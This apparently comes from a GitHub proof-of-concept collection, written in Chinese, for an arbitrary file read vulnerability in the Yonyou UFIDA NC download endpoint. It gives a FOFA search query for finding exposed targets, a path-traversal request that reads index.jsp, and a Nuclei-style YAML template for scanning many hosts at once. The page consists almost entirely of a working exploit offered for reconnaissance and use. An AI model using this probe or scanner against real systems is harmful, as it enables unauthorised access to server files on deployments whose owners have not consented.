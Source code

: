 
## 用友NC的download文件存在任意文件读取漏洞


## fofa
```
app="用友-UFIDA-NC"
```

## poc
```
/portal/pt/xml/file/download?pageId=login&filename=..%5Cindex.jsp
```
![image](https://github.com/wy876/POC/assets/139549762/43853ad7-9323-4874-956c-25b5de054184)

## yaml 批量检测
```
id: yonyouNC_download_fileread
info:
  name: 用友NC_download文件读取
  author: mhb17
  severity: high
  description: description
  reference:
    - https://
  tags: fileread
requests:
  - raw:
      - |+
        GET /portal/pt/xml/file/download?pageId=login&filename=..%5Cindex.jsp HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
        Connection: close

    matchers-condition: and
    matchers:
      - type: word
        part: header
        words:
          - '200'
      - type: word
        part: body
        words:
          - "response.addHeader"

```

